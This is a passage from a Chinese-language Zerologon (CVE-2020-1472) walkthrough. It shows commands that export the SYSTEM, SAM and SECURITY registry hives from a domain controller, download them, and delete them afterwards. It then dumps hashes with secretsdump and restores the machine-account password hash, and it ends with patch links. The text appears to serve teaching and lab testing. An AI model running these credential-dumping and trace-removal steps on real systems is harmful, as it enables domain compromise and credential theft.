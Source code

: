 **8、 获取目标原始 hash**

在域控主机上从注册表导出 hash 文件。

```
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
```

![](https://mmbiz.qpic.cn/mmbiz_png/PrTu58FA79bKJO6B8ew4Y4m6lZxU5Zzhr1rbwlCLVYl78AJkS4Stapy11pn2XK3thicibH2VZe3dZ7mpUoQMQHibg/640?wx_fmt=png)

将导出的 hash 文件下载到本地。

```
get system.save
get sam.save
get security.save
```

![](https://mmbiz.qpic.cn/mmbiz_png/PrTu58FA79bKJO6B8ew4Y4m6lZxU5Zzh2jjsHe0ZEXPBWYRNMHsWFymINdTQEngOawTCHKb3BTicOacLLkreJlQ/640?wx_fmt=png)

在域控主机上删除导出的 hash 文件。

```
del /f system.save
del /f sam.save
del /f security.save
```

![](https://mmbiz.qpic.cn/mmbiz_png/PrTu58FA79bKJO6B8ew4Y4m6lZxU5ZzhWONU0Uuzaab4LO8OPT2F0YI9lWcguUs8kHvmDHFQu4Tf8AU5sWF67Q/640?wx_fmt=png)

使用 secretsdump 读取下载到本地的 hash 文件, 获取域控机器账户置空前的原始 hash。

```
python3 secretsdump.py –sam sam.save –system system.save –security security.save LOCAL
```

![](https://mmbiz.qpic.cn/mmbiz_png/PrTu58FA79bKJO6B8ew4Y4m6lZxU5ZzhytYianPWBBgXtVTVspcoUuAK3iavfKbhqCqN51Z1sVBYbDKdWdGPQOHA/640?wx_fmt=png)

**9、 还原域控机器账户 hash**

```
python3 reinstall_original_pw.py DC 192.168.1.53 9c0dbc4f157d628d3c618e4290c077f4
```

![](https://mmbiz.qpic.cn/mmbiz_png/PrTu58FA79bKJO6B8ew4Y4m6lZxU5ZzhmbbUD78NkksTbPZUvRPqm7vMMHGaVItwkvQXqqkiajJITG5JLAdljwA/640?wx_fmt=png)

**10、 验证 hash 是否还原**

使用空密码连接，连接失败。

![](https://mmbiz.qpic.cn/mmbiz_png/PrTu58FA79bKJO6B8ew4Y4m6lZxU5Zzhiafffkmnha8phno5fSmOwhA4oN7vCJqibAHiaVT1tIUeNOzJhSlYZXtGA/640?wx_fmt=png)

使用 administrator 查看域控机器账户密码 hash, 已还原。

![](https://mmbiz.qpic.cn/mmbiz_png/PrTu58FA79bKJO6B8ew4Y4m6lZxU5ZzhibibIQJ1Qkz7ssicR9QSUPaWoQ9rzEqYsyIialeaialEFQlKm5hLiciahOaQg/640?wx_fmt=png)

### 0x05 漏洞修复

**Windows：**

https://portal.msrc.microsoft.com/zh-CN/security-guidance/advisory/CVE-2020-1472

**Samba：**

https://www.samba.org/samba/history/security.html

参考链接：

https://www.secura.com/blog/zero-logon

https://www.anquanke.com/post/id/219374